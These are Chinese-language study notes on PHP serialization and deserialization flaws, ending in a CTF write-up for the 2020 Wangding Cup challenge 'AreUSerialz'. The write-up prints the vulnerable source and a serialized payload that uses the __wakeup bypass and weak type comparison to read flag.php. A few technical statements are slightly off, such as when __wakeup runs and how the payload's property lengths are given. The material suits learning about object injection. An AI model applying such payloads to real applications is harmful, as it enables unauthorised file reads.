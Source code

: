 # php序列化与反序列化

## serialize() 序列化函数

### 1. 对于类变量 public 、protected 、private 序列化的区别

**在 url 传参时注意区分！！！**

```php+HTML
<?php
class myClass{
    public     $first  = 123  ;
    protected  $second = "456";
    private    $third  = "789";
}
echo serialize(new myClass());
```

有如下结果

```php+HTML
O:7:"myClass":3:{s:5:"first";i:123;s:9:"*second";s:3:"456";s:14:"myClassthird";s:3:"789";}
```

由上图实验发现，区别只在于对变量名添加了标记：

**public**       无标记，变量名不变，长度不变 `s:5:"first";i:123`
**protected** 在变量名前添加标记 \00*\00 ，长度加3 `s:9:"\00*\00second";s:"456"`
**private**      在变量名前添加标记 \00(classname)\00 ，长度 + 2 + 类名长度 `s:14:"myClassthird";s:3:"789"`

### 2. __sleep() 函数

在调用 `serialize()` 函数前执行

## unserialize() 反序列化函数

```php+HTML
<?php
class myClass{
    public     $first  = 123;
    protected  $second = "456";
    private    $third  = "789";
}
$str = 'O:7:"myClass":3:{s:5:"first";i:123;s:9:"*second";s:3:"456";s:14:"myClassthird";s:3:"789";}';
$obj = unserialize($str);
```

### 1. __wakup() 函数

在调用 `unserialize()` 函数前执行

### 2. 反序列化漏洞

当序列化字符串表示对象属性个数的值大于或小于（依据 PHP 版本而不同）真实个数的属性时就会跳过 `__wakeup()` 的执行

例如对于传入下面的序列化字符串

```php+HTML
O:7:"myClass":3:{s:5:"first";i:123;s:9:"*second";s:3:"456";s:14:"myClassthird";s:3:"789";}
```
旧版本可更改 `O:7:"myClass":3:` 为 `O:7:"myClass":4:`
新版本可更改 `O:7:"myClass":3:` 为 `O:7:"myClass":2:`

实现绕过 `__wakeup()` 的执行

## 题目1 [网鼎杯 2020 青龙组]AreUSerialz1

buuoj.cn

```php+HTML
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

### 题解

#### 1. is_valid()

说明：`ord()` 将字符转化为 ASCII 码，要求我们传入的 str 的每个字符的 ASCII 值在 32 和 125 之间。因为 protected 属性在序列化之后会出现不可见字符 \00*\00 ，不符合上面的要求。

绕过方法：因为 PHP7.1 以上的版本对属性类型不敏感，所以可以将属性改为 public ，public 属性序列化不会出现不可见字符

#### 2. unserialize()

执行反序列化函数时不会调用 `__construct()` 方法，无视其中的内容

观察 `__deconstruct()` 方法，发现需要在调用 `process()` 方法时进入 `read()` 方法，读取 `flag.php` 文件，返回flag

为了进入 `read()` 方法，在 `process()` 中要使 `$this->op == "2"` ，而 `__deconstruct()` 中不能有 `$this->op === "2"` ，利用 PHP 的强弱类型比较不同，传入 `$this->op == 2` ，实现绕过

#### 3. 构造 payload

注意 payload 中使用了 public 属性的 op 实现绕过 `is_valid()`

```php+HTML
O:11:"FileHandler":3:{s:2:"op";i:2;s:11:"*filename";s:8:"flag.php";s:10:"*content";s:0:"";}
```

F12 观察 PHP 源码得到 flag

## Extra

参考资料

https://blog.csdn.net/weixin_45844670/article/details/108171963

https://blog.csdn.net/weixin_45844670/article/details/108934194

https://www.php.cn/php-weizijiaocheng-427052.html